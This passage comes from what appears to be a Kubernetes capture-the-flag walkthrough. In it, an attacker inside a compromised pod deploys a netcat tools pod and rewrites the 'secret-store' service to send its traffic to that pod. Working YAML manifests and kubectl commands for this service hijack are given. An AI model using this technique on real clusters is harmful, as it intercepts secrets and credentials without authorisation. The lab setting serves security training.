 On top of the permissions of the pod, we also have the ability to modify the secret store service which we could use to redirect a request to another netcat listener. Let's create a pod with a netcat listener in teh `private-services` namespace.

> Note: We already have a container image with `nc` installed and we can leverage that again in this context.

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: tools
  namespace: private-services
  labels:
    app: terminal
spec:
  containers:
  - image: docker.io/controlplaneoffsec/identity-theft:public-terminal
    command: ["sleep", "2d"]
    name: tools
  restartPolicy: Always
```

The significant part of the manifest is the label `app: terminal` which we will use to target the pod with our service. Let's deploy the pod.

```bash
root@yamlidator-78f7dfb58f-564rx:/# kubectl apply -f pod.yaml
kubectl apply -f pod.yaml
pod/tools created
```

With that in place, let's create a service manifest to redirect the request to our pod.

```yaml
apiVersion: v1
kind: Service
metadata:
  name: secret-store
  namespace: private-services
spec:
  selector:
    app: terminal
  ports:
  - port: 5050
    targetPort: 9090
    protocol: TCP
```

Once again, we see our label `app: terminal` as a selector and provide a target port of `9090`. Let's deploy the service.

```bash
root@yamlidator-78f7dfb58f-564rx:/# kubectl apply -f service.yaml
kubectl apply -f service.yaml
service/secret-store configured
```
